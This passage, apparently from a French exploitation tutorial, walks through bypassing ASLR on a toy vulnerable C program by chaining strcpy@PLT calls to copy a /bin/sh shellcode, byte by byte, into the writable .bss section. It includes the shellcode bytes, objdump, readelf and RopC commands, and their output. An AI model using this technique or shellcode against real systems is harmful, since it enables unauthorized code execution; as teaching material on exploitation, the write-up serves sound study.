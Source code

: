 	int main(int argc, char **argv) {

	    if(atoi(argv[2]) == 0xcd)
	        foo(argv[1]);

	    return 0;
	}

Notre objectif va être de copier un shellcode grâce à la fonction strcpy, vers une zone non soumise à l'ASLR et writable.

Cherchons l'adresse de strcpy@PLT :

	:::console
	$ objdump -d ./a.out | grep "<strcpy@plt>:"
	080482f0 <strcpy@plt>:

On peut donc appeler strcpy en jumpant à l'adresse 0x080482f0.

Cherchons maintenant une zone mémoire +W, non soumise à l'ASLR :

	:::console
	$ readelf -S ./a.out | grep .bss
	  [25] .bss              NOBITS          08049740 000740 000120 00  WA  0   0 32

Parfait, on a une zone de 0x120 bytes writable à l'adresse 0x08049740.

Utilisons RopC pour rechercher notre shellcode dans le binaire :

	:::console
	$  ropc -f ./a.out -s "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
	0x08048330  -> "\x31"
	0x08048398  -> "\xc9"
	0x080484e6  -> "\xf7"
	0x08048334  -> "\xe1"
	0x0804832c  -> "\xb0"
	0x080481fc  -> "\x0b"
	0x08048114  -> "\x51"
	0x080482f6  -> "\x68"
	0x08048134  -> "\x2f"
	0x08048134  -> "\x2f"
	0x08048142  -> "\x73"
	0x080482f6  -> "\x68"
	0x080482f6  -> "\x68"
	0x08048134  -> "\x2f"
	0x08048137  -> "\x62"
	0x0804813d  -> "\x69\x6e"
	0x08048333  -> "\x89"
	0x080481aa  -> "\xe3"
	0x0804846a  -> "\xcd"
	0x0804803d  -> "\x80"
	20 strings found.

Parfait ! Tous les opcodes de notre shellcode sont présents en mémoire dans le binaire !

Maintenant, pour chaîner les appels à strcpy afin de copier notre shellcode opcodes par opcodes, nous avons besoin d'un gadget pour "dépiler" les arguments de l'appel précédent. Puisque strcpy a 2 arguments, il nous faut un gadget du type "pop; pop; ret" afin de pouvoir continuer l'exécution.
